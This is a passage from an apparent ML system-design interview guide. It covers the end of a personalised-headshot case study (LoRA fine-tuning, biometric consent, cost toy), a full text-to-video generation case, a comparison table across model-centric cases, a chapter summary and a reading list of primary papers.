- **Biometric data.** Face **templates** (numeric face summaries) used to identify or match a person — exactly what the same-person and identity checks compute — are *special category* biometric data under **GDPR** (Art. 9), and face geometry is regulated by laws such as Illinois BIPA: explicit consent, stated purpose and retention, no training of shared models without separate opt-in, deletion on request.
- **Only your own face.** The cross-upload same-person check plus a live selfie matched to the uploads (a liveness check) stops headshots of someone else.
- **Fixed styles, filtered outputs.** No free-text prompts, a nudity/violence filter on every output, adults only (age estimation with human review for borderline cases).

### Failure modes
| Failure | Response |
|---|---|
| Bad uploads → poor likeness | QC gate before GPU spend; ask for better photos |
| Training job crashes | Retry from checkpoint under the same job key; SLA clock visible to the user |
| Outputs don't look like the user | Identity-score gate, regenerate; if systematic for a group, it's a fairness bug |
| Deletion request | Verified cascade over photos, adapter, outputs, caches; audit record |

### Follow-ups (Q→A)
- **Q: "Cut GPU cost by 80%."** A: Zero-shot identity encoding for the free tier and previews; shorter training (fewer steps, lower rank); lower training resolution. Measure the likeness drop with identity similarity first.
- **Q: "Every generated person now looks like the user."** A: Prior drift — add or strengthen prior preservation. In the toy, λ = 5 cuts drift 1.18 → 0.52 at the same identity error; λ = 25 cuts further but identity error doubles.
- **Q: "Why not keep the photos to improve the model?"** A: Biometric data needs separate, explicit opt-in; default to deletion; improve with licensed, consented datasets.
- **Q: "A user uploads a celebrity's photos?"** A: The liveness selfie must match the uploads; a public-figure similarity check adds a second barrier.

### What separates levels, and variations
Mid-level says "fine-tune Stable Diffusion on the selfies"; senior compares DreamBooth + LoRA with zero-shot encoders, names prior preservation and overfitting, runs training as a queued job; staff treats consent and deletion as pipeline stages, serves thousands of adapters on shared base models and prices GPU per user against the product price. **Variations:** *pet portraits* (no biometric law, same overfitting problem) and *product photography for small shops* (subject = a product; exact logo and text fidelity over style).

### Toy: rank, prior preservation and cost (`code/headshot_lora.py`)
A frozen linear "generator" stands in for the diffusion model; five noisy "selfies" define the identity. Training fits `(W0 + B @ A) @ X ≈ Y` with `W0` frozen; with prior loss weight λ, the update `B @ A` is also penalised for moving other "person" prompts away from the frozen model's outputs.
```
identity error and prior drift are relative to the size of the identity offset (1.0 = the whole offset)
method                         | trainable params | identity error | prior drift
no fine-tuning                 |                0 |           1.00 |        0.00
full fine-tune, no prior loss  |            2,048 |           0.23 |        1.10
LoRA r=4, no prior loss        |              384 |           0.24 |        1.18
LoRA r=4 + prior loss (lam=1)  |              384 |           0.23 |        0.70
LoRA r=4 + prior loss (lam=5)  |              384 |           0.23 |        0.52
LoRA r=4 + prior loss (lam=25) |              384 |           0.45 |        0.33
LoRA r=1 + prior loss (lam=5)  |               96 |           0.23 |        0.49

Per-user cost (illustrative assumptions)
   training: 12 GPU-min x $3.0/GPU-h = $0.60 per user; 20,000 users/day -> $12,000/day, 167 GPUs busy around the clock
   adapter: 100 projection matrices of 1280x1280, rank 16 -> 4,096,000 params = 8.2 MB in fp16 (vs 328 MB for those matrices in full)
   inference: 40 portraits x 6 GPU-s = 240 GPU-s = $0.20 per user
```
LoRA with 384 parameters fits the identity as well as a 2,048-parameter full fine-tune — one identity is a low-rank change. Without the prior loss, other "person" prompts move *more* than the identity offset itself (drift 1.10–1.18): everyone starts to look like the user. The prior loss removes most drift, but too much weight (λ = 25) stops the model learning the face.

### TL;DR
Per-user LoRA (DreamBooth-style: rare token + prior preservation) for likeness, zero-shot identity encoders for instant previews; photo QC and same-person checks before GPU spend; training as a queued job with checkpoints; many adapters on one base model; over-generate and select by identity score; biometric consent and verified deletion as pipeline stages; ~$1 of GPU per user.

---

## 14.14 Case: text-to-video generation

> **The question (paraphrased).** A creative app lets users type a prompt and get a 5-second 720p video clip, with an option to extend it. Target 200,000 clips a day. Design the model and the system.

### Requirements (minutes 0–8)
**Recognition.** "Text-to-image (§14.4) with a time axis — a **latent video diffusion** model ([§10.7](../10-generative-models-beyond-text/README.md)) — but the numbers change the architecture: one clip is ~26 images' worth of tokens, generation takes minutes, and the new quality problem is **temporal consistency**. An async GPU job pipeline with previews."

**Success.**
- *Primary:* **clips kept or shared per session**, and side-by-side human preference.
- *Automatic:* **FVD** (Fréchet Video Distance — FID's idea on video features; Unterthiner et al., 2018) and per-dimension suites such as **VBench** (subject consistency, motion smoothness, flicker, prompt alignment; Huang et al., 2024).
- *Guardrails:* safety incidents (especially realistic real people), wait time by tier, GPU cost per kept clip.

**Latency.** Minutes, stated up front; a few-second **preview** (low-res or a keyframe) keeps users engaged. **Scope:** text-to-video and image-to-video, 5 s, 720p, no audio in v1.

### Approach: data and model (minutes 8–18)
- **Compress space *and* time.** A video autoencoder shrinks each frame spatially (e.g. 8×) and merges neighbouring frames (e.g. 4×): 120 frames at 1280 × 720 → 30 latent frames × 3,600 tokens = **108,000 tokens** — 26× a 1024² image.
- **Backbone options:**
  - **Inflate a text-to-image model:** insert **temporal layers** (attention or convolution across frames at each position) into a pretrained image model and fine-tune on video (Make-A-Video, Singer et al., 2022; Video LDM, Blattmann et al., 2023; Stable Video Diffusion, Blattmann et al., 2023) — reusing what it knows about appearance.
  - **A diffusion transformer over spacetime patches**, trained on video and images together (OpenAI's Sora technical report, 2024); scales with compute.
  - **A cascade:** a short, low-res, low-frame-rate clip, then temporal interpolation and spatial super-resolution stages (Imagen Video, Ho et al., 2022).
- **Attention cost decides the layout.** Full spacetime attention over 108,000 tokens ≈ 1.2 × 10¹⁰ pairs; **factorised attention** (spatial within each frame, then temporal across frames per position — Ho et al., *Video Diffusion Models*, 2022) is ~30× cheaper and grows only 2× (not 4×) when the clip doubles. Many systems mix both.
- **Data is the moat and the bottleneck.** Well-captioned video barely exists. Split at scene cuts (one shot per clip), filter by motion (drop static slideshows), aesthetics, resolution, text overlays and watermarks, then **re-caption every clip with a video captioning model** (§14.10's model reused; described in the Sora report and others). Train jointly on images (appearance) and videos (motion). Licensing and consent of source footage need legal review ([§12.10](../12-safety-ethics-governance/README.md)).
- **Consistency comes from denoising all frames together.** Frames generated one by one with independent noise flicker; joint denoising with temporal layers makes noise, and so detail, move with the content (the toy measures this).

### Architecture (minutes 18–30)
**Envelope** (illustrative): 200,000 clips/day ≈ 2.3 clips/s × ~300 GPU-s ≈ **694 busy GPUs**, ≈ **$50,000/day** at $3/GPU-hour, **$0.25 per clip**. One clip may need several GPUs at once (sequence parallelism splits tokens across GPUs) to finish in minutes.



- **Preview first.** A keyframe or small short clip costs a few percent of a full render; users rejecting the preview never pay for the clip. In the toy, previews at 5% cost that cut full renders by 30% save **$12,500/day**.
- **Multi-GPU jobs need a real scheduler.** A 4-GPU, 2-minute job waits for 4 free GPUs on one host; the scheduler packs jobs against fragmentation and keeps weights warm (loading tens of GB outlasts a short job).
- **Checkpoint long jobs** so a **preempted** (stopped to free the machine) or crashed worker resumes; retries use the idempotency key so a clip is billed once.
- **Extension** ("make it longer") conditions a new segment on the previous one's last frames; drift accumulates, so limit extensions or re-anchor on the first frame.
- **The video gate** samples frames (plus motion-aware checks) for nudity, violence and public-figure likenesses before the clip is visible.

### Evaluation and the loop (minutes 30–38)
- **FVD and VBench-style dimensions** per model version on a fixed prompt suite (people, animals, text, fast motion, camera moves).
- **Human side-by-side preferences** decide launches, rated separately for visual quality, motion quality and prompt following (models trade them off).
- **Physics and consistency probes** (objects vanish, hands merge, text changes between frames) become regression prompts.
- Keep/share/regenerate rates per version close the loop, like §14.4's pick rate.

### Scaling and cost
Levers: previews and keyframe approval, fewer sampling steps (distillation), factorised attention, lower frame rate plus interpolation, an off-peak batch tier, caching the prompt enhancer's output. Longer clips scale worse than linearly with full attention — price length tiers accordingly.

### Safety
Video is the most convincing deepfake medium. Prompt and video gates both **fail closed**; block identifiable real people without verified consent; invisible watermarks and C2PA credentials; keep generation logs for takedown and law-enforcement requests; red-team for election, violence and non-consensual imagery ([§12.7](../12-safety-ethics-governance/README.md)).

### Failure modes
| Failure | Response |
|---|---|
| Flicker or morphing objects | Temporal layers and joint denoising; consistency probes in the regression suite |
| Job preempted mid-render | Resume from checkpoint; idempotent billing |
| GPU fragmentation leaves jobs waiting | **Gang scheduling** (start all GPUs a job needs at once, or none) by job size; separate pools for 1-GPU previews and multi-GPU renders |
| Safety gate outage | That lane stops; no ungated clip is ever published |

### Follow-ups (Q→A)
- **Q: "Why not 120 images from the image model?"** A: Independent frames flicker and objects change identity; the toy's flicker falls 0.281 → 0.090 with correlated noise and → 0 when noise moves with the content. Consistency needs frames denoised together.
- **Q: "Users want 20-second clips."** A: 4× the tokens: full attention 16×, factorised ~4×. Offer extension by segments with re-anchoring, priced as a tier.
- **Q: "Training captions?"** A: Recaption the whole corpus with a video captioner, check caption quality on a sample — caption detail directly controls prompt following.
- **Q: "Cost per kept clip too high."** A: Measure keep rate by prompt type, put previews before expensive renders, route simple prompts to a smaller model, sell a slow batch tier.

### What separates levels, and variations
Mid-level says "diffusion, but for video"; senior computes spacetime tokens, chooses factorised vs full attention, explains temporal consistency and recaptioning, and builds an async multi-GPU pipeline with previews; staff prices clip length, designs gang scheduling and checkpointing, and treats likeness and provenance as launch blockers. **Variations:** *image-to-video animation of product photos* (conditioned on a real image; motion mustn't distort the product) and *video editing* (restyle or inpaint existing video; the source's structure keeps consistency).

### Toy: tokens, flicker and fleet cost (`code/video_budget.py`)
The same residual noise is added three ways: independently per frame, correlated across frames (e(t) = ρ·shift(e(t−1)) + √(1−ρ²)·σ·noise), or shared and shifted with the content.
```
1) A 5 s, 24 fps, 1280x720 clip in a video latent space
   120 frames -> 30 latent frames x 3,600 tokens/frame = 108,000 tokens (26x a 1024x1024 image's 4,096)
   full spacetime attention pairs: 1.166e+10
   factorised (spatial within frame + temporal per position): 3.920e+08  (30x fewer)
   doubling length to 10 s: full x4, factorised x2.0

2) Temporal consistency (residual detail is the same size in every case)
   clean frames                         flicker 0.000
   independent per-frame generation     flicker 0.281
   correlated across frames (rho=0.9)   flicker 0.090
   shared, motion-aligned               flicker 0.000

3) Fleet arithmetic (assumed 300 GPU-s per 5 s clip, $3/GPU-h)
   200,000 clips/day = 2.31 clips/s x 300 GPU-s = 694 busy GPUs; $50,000/day; $0.25 per clip
   a 4-frame low-res preview at ~5% of the cost = $0.013; if previews cut full renders by 30%, saving $12,500/day
```
The same random detail looks completely different depending on how it's shared across frames: independent noise flickers, motion-aligned noise doesn't — what joint denoising with temporal layers buys. The token and fleet numbers explain why video is an async, preview-first product.

### TL;DR
Latent video diffusion: compress space and time (5 s 720p ≈ 108,000 tokens), temporal layers or a spacetime transformer with factorised attention, joint image-video training on recaptioned, filtered clips; denoise frames together for consistency; async multi-GPU jobs with previews, checkpoints and gang scheduling (~694 GPUs, $0.25/clip at 200k/day); FVD/VBench plus humans; both safety gates fail closed, provenance on every clip.

---

## Comparison across the model-centric cases

| | Email completion | Translation | Captioning | GAN faces | High-res synthesis | Personalised headshots | Text-to-video |
|---|---|---|---|---|---|---|---|
| **Model family** | Small decoder-only LM, distilled | Multilingual encoder-decoder Transformer | Image encoder + bridge + LM | StyleGAN (mapping network, styles) | Latent diffusion (DiT) + upscaler or cascade | Diffusion + per-user LoRA (DreamBooth) or identity encoder | Latent video diffusion with temporal layers |
| **Key training data** | Consented email text, de-identified | Parallel + mined + back-translated text | Human captions + filtered web alt text | Consented, aligned, identity-deduplicated faces | High-resolution images, aspect buckets | User's 10–20 selfies + prior images | Scene-split, filtered, recaptioned video + images |
| **Decode / sample** | Beam search + confidence threshold | Beam search per sentence | Beam + grounding rerank | One forward pass; truncation ψ | Denoising steps in latent space, then upscale | Denoising with adapter; over-generate and select | Joint denoising of all frames |
| **Primary metric** | Acceptance with trigger rate, characters saved | Human MQM per pair; COMET/chrF | Screen-reader-user usefulness | Human realism; FID + precision/recall | Crop-level human preference | "Looks like me" keep rate; identity similarity | Clips kept; human preference; FVD/VBench |
| **Binding guardrail** | Offensive / attribute-guessing suggestions; memorisation | Critical errors (negation, numbers); gender bias | Hallucinated objects (CHAIR); sensitive attributes | No memorised identities | Artefacts; cost per image | Someone else's face; biometric deletion | Real-person likeness; wait by tier |
| **Latency posture** | ~100 ms p90 per keystroke | ~300 ms interactive; batch for pages | Async at upload | Tens of ms; pre-generated pool | Seconds; preview then upscale | Minutes to an hour (training job) | Minutes; seconds for preview |
| **Dominant cost** | Request volume (~10⁶/s peak) | Tokens per pair; per-pair models | Batch GPU inference | Training; screening | Attention growth (2× side = 16×) | Per-user training (~$0.60) | Multi-GPU minutes per clip |
| **Signature control** | Client-side trimming + silent-by-default gate | Per-pair gates + quality estimation | Attribute policy outside the model | Face-embedding near-duplicate filter | Autoencoder quality gate | Same-person check + verified deletion | Previews + fail-closed video gate |
| **Toy script** | `smart_compose.py` | `translation_toy.py` | `caption_toy.py` | `gan_faces_toy.py` | `latent_compression.py` | `headshot_lora.py` | `video_budget.py` |

Patterns that repeat: **the model family follows from latency and data**, not fashion; **compress before you generate** (latents for images and video, distillation for text); **a sampling-time knob** (threshold, truncation, reranking, over-generate-and-select) is cheaper than retraining; **automatic metrics catch regressions, people decide launches**; **never-violate policy lives outside the model**.

---

## Chapter TL;DR

| Topic | Remember |
|---|---|
| Pacing | 8 / 5 / 5 / 12 / 8 / 5 / 2 minutes; exit sentence per phase; plan in minute one; timebox aloud |
| Interviewer moves | Redirect → keep your numbers; stress → fallback + alarm; depth → two levels, offer a third; disagreement → name the deciding variable |
| Legal | Negative metrics bind; synchronous per-claim verification; citation graph + treatment metadata; refusal as a product; fail closed |
| Meetings | Three regimes, one data path; workflow not agent; comb-shaped load → queue; ACLs bound truth; deletion propagates to derived data |
| Text-to-image | Math first (23.1/s → 231 busy GPUs); queues = pricing + autoscaling + UX; utilisation is the business; two gates fail closed |
| Coding agent | Tests inside, CI outside, humans at the end; sandbox without credentials; repo is untrusted; draft on exhaustion; reviewer throughput is the bottleneck |
| Critique | Invariants → loops → reliability → economics → quality; consequence + fix per finding; blockers / week one / later |
| Email completion | Small distilled LM, ~100 ms; avoid requests on the client; beam search + confidence threshold on the trigger-vs-acceptance curve; per-user blend; never guess attributes |
| Translation | One multilingual encoder-decoder with language tags (not 9,900 models); back-translation for low-resource; segment + cache; per-pair chrF/COMET + human MQM, not BLEU alone |
| Captioning | Frozen image encoder + bridge + LM; async at upload; grounding rerank, CHAIR for hallucination; attribute policy outside the model; screen-reader users decide |
| GAN faces | StyleGAN mapping network + styles; watch coverage, FID with precision/recall, not losses; truncation = quality vs diversity; near-duplicate filter proves "not a real person" |
| High-res synthesis | Compress first (f = 8 → 48× fewer numbers); generate at trained resolution, upscale only kept images; gate the autoencoder; 2× side = 16× attention |
| Headshots | Per-user LoRA (rare token + prior preservation) vs zero-shot identity encoder; QC and same-person check before GPU; multi-adapter serving; biometric consent and verified deletion |
| Text-to-video | Spacetime latents (~108k tokens for 5 s 720p); factorised attention; joint denoising for consistency; recaptioned data; async multi-GPU jobs with previews and checkpoints |

## Further reading — primary papers for Part II
- **Email completion (§14.8):** Chen et al., *Gmail Smart Compose: Real-Time Assisted Writing* (KDD 2019, arXiv:1906.00080); Carlini et al., *The Secret Sharer* (USENIX Security 2019, arXiv:1802.08232); Hard et al., *Federated Learning for Mobile Keyboard Prediction* (2018, arXiv:1811.03604); Reuters, *Fearful of bias, Google blocks gender-based pronouns from new AI tool* (27 November 2018) for the pronoun policy.
- **Translation (§14.9):** Vaswani et al., *Attention Is All You Need* (2017, arXiv:1706.03762); Johnson et al., *Google's Multilingual Neural Machine Translation System* (TACL 2017, arXiv:1611.04558); Sennrich, Haddow and Birch, *Improving NMT Models with Monolingual Data* (2016, arXiv:1511.06709) and *Neural Machine Translation of Rare Words with Subword Units* (2016, arXiv:1508.07909); Kudo and Richardson, *SentencePiece* (2018, arXiv:1808.06226); NLLB Team, *No Language Left Behind* (2022, arXiv:2207.04672); Conneau et al., *Unsupervised Cross-lingual Representation Learning at Scale* (2020, arXiv:1911.02116); Papineni et al., *BLEU* (ACL 2002); Rei et al., *COMET* (2020, arXiv:2009.09025); Freitag et al., *Experts, Errors, and Context* (MQM, 2021, arXiv:2104.14478); Stanovsky et al., *Evaluating Gender Bias in Machine Translation* (2019, arXiv:1906.00591).
- **Captioning (§14.10):** Vinyals et al., *Show and Tell* (2015, arXiv:1411.4555); Xu et al., *Show, Attend and Tell* (2015, arXiv:1502.03044); Dosovitskiy et al., *An Image is Worth 16x16 Words* (ViT, 2021, arXiv:2010.11929); Radford et al., *CLIP* (2021, arXiv:2103.00020); Li et al., *BLIP* (2022, arXiv:2201.12086) and *BLIP-2* (2023, arXiv:2301.12597); Chen et al., *Microsoft COCO Captions* (2015, arXiv:1504.00325); Sharma et al., *Conceptual Captions* (ACL 2018); Vedantam et al., *CIDEr* (2015, arXiv:1411.5726); Anderson et al., *SPICE* (2016, arXiv:1607.08822); Hessel et al., *CLIPScore* (2021, arXiv:2104.08718); Rohrbach et al., *Object Hallucination in Image Captioning* (2018, arXiv:1809.02156).
- **GAN faces (§14.11):** Goodfellow et al., *Generative Adversarial Nets* (2014, arXiv:1406.2661); Karras et al., *Progressive Growing of GANs* (2018, arXiv:1710.10196), *A Style-Based Generator Architecture* (StyleGAN, 2019, arXiv:1812.04948), *Analyzing and Improving the Image Quality of StyleGAN* (2020, arXiv:1912.04958) and *Training GANs with Limited Data* (ADA, 2020, arXiv:2006.06676); Brock et al., *BigGAN* (2019, arXiv:1809.11096); Heusel et al., *FID* (2017, arXiv:1706.08500); Kynkäänniemi et al., *Improved Precision and Recall Metric* (2019, arXiv:1904.06991); Deng et al., *ArcFace* (2019, arXiv:1801.07698).
- **High-res synthesis (§14.12):** Rombach et al., *High-Resolution Image Synthesis with Latent Diffusion Models* (2022, arXiv:2112.10752); van den Oord et al., *VQ-VAE* (2017, arXiv:1711.00937); Esser et al., *Taming Transformers* (VQGAN, 2021, arXiv:2012.09841); Ho et al., *Cascaded Diffusion Models* (2022, arXiv:2106.15282); Saharia et al., *Imagen* (2022, arXiv:2205.11487); Peebles and Xie, *DiT* (2023, arXiv:2212.09748); Podell et al., *SDXL* (2023, arXiv:2307.01952).
- **Headshots (§14.13):** Ruiz et al., *DreamBooth* (CVPR 2023, arXiv:2208.12242); Hu et al., *LoRA* (2022, arXiv:2106.09685); Gal et al., *Textual Inversion* (2022, arXiv:2208.01618); Ye et al., *IP-Adapter* (2023, arXiv:2308.06721); Wang et al., *InstantID* (2024, arXiv:2401.07519); Sheng et al., *S-LoRA* (2023, arXiv:2311.03285).
- **Text-to-video (§14.14):** Ho et al., *Video Diffusion Models* (2022, arXiv:2204.03458) and *Imagen Video* (2022, arXiv:2210.02303); Singer et al., *Make-A-Video* (2022, arXiv:2209.14792); Blattmann et al., *Align your Latents* (Video LDM, 2023, arXiv:2304.08818) and *Stable Video Diffusion* (2023, arXiv:2311.15127); OpenAI, *Video generation models as world simulators* (Sora technical report, 2024); Unterthiner et al., *FVD* (2018, arXiv:1812.01717); Huang et al., *VBench* (2024, arXiv:2311.17982).
